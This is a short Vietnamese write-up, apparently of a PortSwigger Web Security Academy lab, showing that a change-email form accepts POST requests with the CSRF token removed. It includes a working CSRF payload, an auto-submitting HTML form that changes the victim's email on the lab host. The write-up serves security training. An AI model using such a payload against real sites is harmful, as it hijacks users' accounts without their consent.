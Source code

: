 ![image](https://github.com/user-attachments/assets/4c5bbe0e-c1b3-413b-a6f4-48a803a3beeb)

![image](https://github.com/user-attachments/assets/2f784547-b3fc-490c-b715-bb19a0cc93d0)

Nó lại tiếp tục có csrf token ở method POST

![image](https://github.com/user-attachments/assets/6d600adf-7e2f-4336-8dae-1e1a20ab1571)

Tiến hành đổi giá trị thì dường như nó không được.

![image](https://github.com/user-attachments/assets/13370e2e-bd7f-4044-978a-b65352551003)

Nhưng khi xóa luôn thì lại được??? Lí do tại sao vậy??

Có thể ứng dụng check không chặt chẽ. Tức là nếu request có kèm với csrf token thì nó sẽ check xem có đúng giá trị hay không. Nhưng nó lại không bắt buộc csrf token phải được gửi kèm cùng với request.

Ảo ma lazada.

Tiến hành gửi payload thôi:

```
<html>
  <body>
    <form action="https://0aa10033040b259e807ab20000890083.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="clap@gmail.com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
``

![image](https://github.com/user-attachments/assets/be566813-3ca1-4c1b-a2b7-b869a2da1120)

Và thành công.

